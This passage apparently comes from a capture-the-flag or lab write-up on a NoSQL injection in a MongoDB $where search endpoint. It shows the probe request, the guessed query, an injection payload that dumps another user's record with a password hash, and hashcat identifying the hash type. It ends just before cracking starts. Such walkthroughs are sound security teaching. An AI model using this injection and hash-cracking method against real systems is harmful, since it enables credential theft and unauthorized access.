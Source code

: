 ```jsx
GET /admin/search-users?username='

HTTP/1.1 500 Internal Server Error
```

Looks promising. Let’s figure out a query to enumerate. For mongodb, a simple search function that accepts a username is likely using a `$where` statement. An example of this would be:

```jsx
db.users.find({ $where: `this.username == '${username}'` });
```

This gives us a way to think about crafting. We can enumerate the remaining users with the following query:

```jsx
GET /admin/search-users?username='; this.username != 'admin
```

Which returns an exported list of another user:

```jsx
[{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Now that we’ve enumerated the users, let’s start evaluating these passwords. I put both passwords in a `hashes.txt` file and let hashcat try and detect their type:

```jsx
$ hashcat --identify hashes.txt                                     
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

They resemble md5 to me as well, so lets try that:
